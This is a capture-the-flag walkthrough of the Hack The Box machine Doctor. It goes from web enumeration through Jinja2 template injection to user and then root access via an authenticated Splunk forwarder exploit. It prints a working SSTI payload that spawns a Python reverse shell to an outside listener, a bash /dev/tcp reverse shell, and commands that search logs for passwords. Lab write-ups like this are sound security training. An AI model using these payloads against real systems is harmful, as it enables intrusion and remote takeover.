




# Doctor: 10.10.10.209

## Hints

- Find a hostname which has a different web application
- The machine category tags state SSTI, this is important info to know, so put it in you brain "archive"
- Privesc to another user involves looking at group file ownership and passwords in log files
- Privesc to root involves a unique service running as root

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http Splunkd httpd
```

Looks like an Ubuntu Focal (20.04) system with SSH and HTTP (Apache). There is also port 8089 open which seems to have SSL and a unique piece of software called Splunkd. I have a quick poke a Splunkd, and did some research, but it seems we need creds to do anything on this server - and the version is quite up-to-date without many exploits. So, as usual, starting with enumerating web.

## 80: Recon

Borwsing to the website on port 80 we can see some health care provider infromation.


There is a hostname leak for `doctors.htb` so I added it to the `/etc/hosts` file. Apart from that, there is a list of doctor names, and some updates made by what seems to be an "Admin" account. Not much else going on, so fired up a `gobuster` with the normal arguments.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u 10.10.10.209 -o logs/gobuster_80_root_medium.log
```

Browsing to the `doctors.htb` hostname, we are greeted by a "Doctor Secure Messaging" application that requires login.



The interesting thing about this page was it seemed to be running from a different webserver, using Python3 Werkzeug. We can see this information in the HTTP reponse headers from the server.

```none
└─$ curl -s -o /dev/null -D - doctors.htb 
HTTP/1.1 302 FOUND
Date: Sat, 25 Sep 2021 19:25:47 GMT
Server: Werkzeug/1.0.1 Python/3.8.2
Content-Type: text/html; charset=utf-8
Content-Length: 237
Location: http://doctors.htb/login?next=%2F
Vary: Cookie
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsiaW5mbyIsIlBsZWFzZSBsb2cgaW4gdG8gYWNjZXNzIHRoaXMgcGFnZS4iXX1dfQ.YU93uw.UzZXlTRCqnO0NAbMiZoQ012GZ20; HttpOnly; Path=/
```

Started a `gobuster` on the newly discovered webserver with the usual options to have some automated enumeration in the background. I tried a couple of common username and password combinations - but didn't have any luck. Then tried some SQL injection attacks, but the page did not seem vulnerable.

Next, I tried the "Forgot Password" page (`http://doctors.htb/reset_password`), which revealed if a supplied email was correct or not. This could be useful to guess usernames (emails). However, after manually trying a bunch of potential email addresses, I decided to move on.

I noticed there was also an option to register an account, so went ahead and did that. Interestingly, the account was only valid for 20 minutes.

> Your account has been created, with a time limit of twenty minutes! 

At this point, looked at the `gobuster` results and compared them to the links on the website after being logged in. Most of the paths in the results were present, apart from `archive` - which seemed to be an RSS feed of the site for the current user only.

## SSTI to RCE

At this point, I knew I should try Server Side Template Injection (SSTI) - but only because the SSTI category was provided in the HTB interface for this machine. I hadn't done much SSTI before, so I had a look at the [HackTricks SSTI (Server Side Template Injection) article](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). After reading through some information, I looked at the SSTI methodology flow chart, which helps identify which templating library is being used, without seeing the code. The idea - enter a bunch of math equations into user input, and see what renders, or calculates, instead of printing the literal string.


I tried entering in a couple SSTI payloads, and didn't get any results. The payload was just printed out exactly had I entered it. 



After getting a little nudge from a friend, I realised that you needed to view the `http://doctors.htb/archive` page to get the injected template to render, and it would only be visible when viewing the source code of the page. In the folloiwng screenshot, we can see that the `{{7*7}}` payload is executed, and 49 is printed out. Another important note, only the message title is included on the `archive` page.



Based on the results and some more testing, it seems we had the Jinja templating library. Luckily, there is a [HackTricks section on Jinja](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) with some useful payloads. I tried a couple of the payloads, such as reading files. But they kept crashing the server and making it reutrn a 500 error. When this happened, I had to make a new account. After some trial and error, I got a RCE payload to work - the payload uses the `subprocess` module to open a shell. I got this from the HackTricks article, but had to modify the `subprocess` call.

```none
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.2\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}
```



After browsing to the archive page, the payload was triggered and got a reverse shell.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 46040
bash: cannot set terminal process group (823): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

This process was quite difficult for someone new to SSTI and required lots of trial and error to get code execution. For anyone reading this, I basically just read the HackTricks article from start to end, trying different payloads. I think I created about 20 accounts on the web application trying to get a shell! Try harder I guess?!

## Privesc: `web` to `shaun`

Started running linpeas in the background for some automated enumeration. The first thing I noticed was that the `web` user was in a group called `adm`.

```none
User & Groups: uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

There are a few users in the box with a shell, but it seems like elevating to `shaun` would be the most likely next step. Mainly because `shaun` has the user flag in their home directory.

```none
[+] Users with console
root:x:0:0:root:/root:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
```

I tried dumping the Splunkd password file, but we do not have access.

```none
cat /opt/splunkforwarder/etc/passwd
cat: /opt/splunkforwarder/etc/passwd: Permission denied
```

I didn't find much else in the linpeas output. So I started to look at all the files that have `adm` as the group.

```none
# Find all files with adm group ownership
find / -group adm 2>/dev/null
# Exclude files in /proc
find / -group adm 2>/dev/null | grep -v proc
```

There were a bunch of log files in the results. I stated doing some more searching for some keywords such as `shaun` and `password`.

```none
find / -group adm -exec grep 'shaun' {} \; 2>/dev/null
find / -group adm -exec grep 'password' {} \; 2>/dev/null
```

After a while I found that the `/var/log/apache2/backup` file has an interesting entry from a user who attempted to reset their password. Looks like the user entered their password into the form, instead of their email!

```none
/var/log/apache2/backup:74:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

With this password, tried switching to the `shaun` user.

```none
web@doctor:~$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
wc -c /home/shaun/user.txt
33 /home/shaun/user.txt
```

Success! Got the user flag. I also tried to SSH into the machine by specifying the `shaun` user and the password we got. However, got denied... which is interesting. Turns out that `shaun` is denied access via SSH in the config file: `DenyUsers shaun`. This was probably a good idea from the machine creator, as the `Guitar123` password was in rockyou.

## Privesc: `shaun` to `root`

Started running linpeas in the background while having a look around the system. One of the first things of interested I noted was the Splunkd service was running as root.

```none
root        1134  0.1  2.1 257468 86816 ?        Sl   21:24   0:05 splunkd -p 8089 start
```

At the start of this machine, I had a feeling that this service would have a purpose, but needed credentials to perform any sort of attack. I navigated to the web application and tried logging in with the only credentials we had: `shaun:Guitar123`.

```none
https://10.10.10.209:8089/services
```

And we have access to a bunch more options. I had a read of the [HackTricks article on Splunk LPE and Persistence](https://book.hacktricks.xyz/linux-unix/privilege-escalation/splunk-lpe-and-persistence) which outlined how to use a Python tool, named [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2), to get remote code execution.

I cloned the project repo:

```none
git clone https://github.com/cnotin/SplunkWhisperer2.git
```

This tool requires a lot of arguments, but the most important is the payload. The HackTricks article had a couple examples that added a root user. Since Splunkd was running as `root` on this machine, I decided to use a simple Bash reverse shell as the payload.

```none
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.2 --lport 9002 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'"
```

The executed the tool.

```none
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpxtqyxmqy.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.2:9002/
10.10.10.209 - - [26/Sep/2021 09:39:35] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```

Made sure to have a netcat listener, and got a connection back as the `root` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.209] 57702
bash: cannot set terminal process group (1136): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Take time to read. I almost missed `doctors.htb` and I read it as `doctor.htb`
- Been a while since I didn't do a decent enumeration on a machine, but made a few mistakes on this machine. Enumerate!

## Useful Resources

- [HackTheBox - Doctor by ippsec](https://www.youtube.com/watch?v=JcOR9krOPFY)
- [HTB: Doctor by 0xdf](https://0xdf.gitlab.io/2021/02/06/htb-doctor.html)
